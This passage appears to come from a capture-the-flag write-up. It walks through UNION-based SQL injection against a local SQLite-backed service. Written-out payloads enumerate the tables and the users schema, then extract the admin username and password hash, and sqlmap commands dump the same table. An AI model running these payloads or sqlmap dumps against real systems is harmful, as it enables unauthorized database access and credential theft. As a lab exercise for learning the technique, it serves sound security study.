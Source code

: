 Response:
```json
{"message": {"id": null, "version": null, "released_date": null, "downloads": "3.37.2"}}
```


##### Enumerate tables

Request:
```sql
0.0.2' union all select NULL, NULL, NULL, (SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'); --
```

Response:
```json
{"message": {"id": null, "version": null, "released_date": null, "downloads": "versions,users,info,reports,answers"}}
```


##### Enumerate columns from table: `users`

Request:
```sql
0.0.2' union all select NULL, NULL, NULL, (SELECT group_concat(sql) FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users') --
```

Response:
```json
{"message": {"id": null, "version": null, "released_date": null, "downloads": "CREATE TABLE users (id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT, password DATE, role TEXT)"}}
```


##### Enumerate data from table: `users`

Request:
```sql
0.0.2' union all select NULL, NULL, NULL, (SELECT group_concat(username|| ' : ' ||password) from users); --
```

Response:
```json
{"message": {"id": null, "version": null, "released_date": null, "downloads": "admin : 0c090c365fa0559b151a43e0fea39710"}}
```


### SQLMap

```bash
┌──(root㉿kali)-[~/socket]
└─# sqlmap -u "http://127.0.0.1:8081?id=0.0.2" -T users --dump
...
Database: <current>
Table: users
[1 entry]
+----+-------+----------------------------------+----------+
| id | role  | password                         | username |
+----+-------+----------------------------------+----------+
| 1  | admin | 0c090c365fa0559b151a43e0fea39710 | admin    |
+----+-------+----------------------------------+----------+

┌──(root㉿kali)-[~/socket]
└─# sqlmap -u "http://127.0.0.1:8081?id=0.0.2" --batch -a
...
Database: <current>                                                                                                                                                                                                                         
```